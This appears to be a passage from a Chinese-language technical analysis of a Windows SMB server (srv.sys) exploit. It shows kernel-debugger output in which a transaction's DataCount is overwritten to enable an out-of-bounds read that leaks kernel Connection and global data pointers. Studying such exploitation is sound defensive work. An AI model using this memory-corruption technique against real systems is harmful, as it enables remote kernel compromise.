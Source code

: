 该函数最终会修改Transaction-&amp;gt;DataCount 为 0x23c。

```
kd&gt; ub
srv!RestartPeekNamedPipe+0x42:
b7700137 66895004        mov     word ptr [eax+4],dx
b770013b 83614c00        and     dword ptr [ecx+4Ch],0
b770013f c7415406000000  mov     dword ptr [ecx+54h],6
b7700146 8b4678          mov     eax,dword ptr [esi+78h]
b7700149 8b401c          mov     eax,dword ptr [eax+1Ch]
b770014c 83e810          sub     eax,10h
b770014f 85ff            test    edi,edi
b7700151 894160          mov     dword ptr [ecx+60h],eax
kd&gt; ?ecx+0x60
Evaluate expression: 367768 = 00059c98
kd&gt; r eax
eax=0000023c
kd&gt; dd 00059c38
00059c38  109c020c 00000000 ffdff500 89a29c18
00059c48  e1ed9900 e15e2960 0005acf8 00058ba8
00059c58  00020000 00059cd0 00002307 00000001
00059c68  00000000 00059cd4 8993b3e5 00059cd4
00059c78  00059d14 ffdff500 0005acd4 00000000
00059c88  00000000 00000006 00000000 00000ff0
00059c98  0000023c 00000000 00000001 00000000
00059ca8  00000101 08000000 0800cee6 00000000
kd&gt; k
 # ChildEBP RetAddr  
00 b7c0ed88 b76dad98 srv!RestartPeekNamedPipe+0x5f
01 b7c0edac 805c6160 srv!WorkerThread+0x11e
02 b7c0eddc 80541dd2 nt!PspSystemThreadStartup+0x34
03 00000000 00000000 nt!KiThreadStartup+0x16
```

至此，已经成功修改了write_transaction的DataCount值，之后便可以越界读出 leak_transacion-&amp;gt;Connection值: 89a29c18。

**5.1.1.3 SRV global data pointer**

```
kd&gt; dds 89a29c18
89a29c18  02580202
89a29c1c  0000001d
89a29c20  00000000
89a29c24  00000000
89a29c28  00000000
89a29c2c  00000000
89a29c30  00000000
89a29c34  00000000
89a29c38  00000000
89a29c3c  b76d8bec srv!SrvGlobalSpinLocks+0x3c
89a29c40  899d0020
89a29c44  000005b3
89a29c48  8976c200
89a29c4c  00004000
89a29c50  10000100
89a29c54  00000000
89a29c58  8988e010
89a29c5c  89aedc30
89a29c60  89a7d898
89a29c64  0001ffff
```
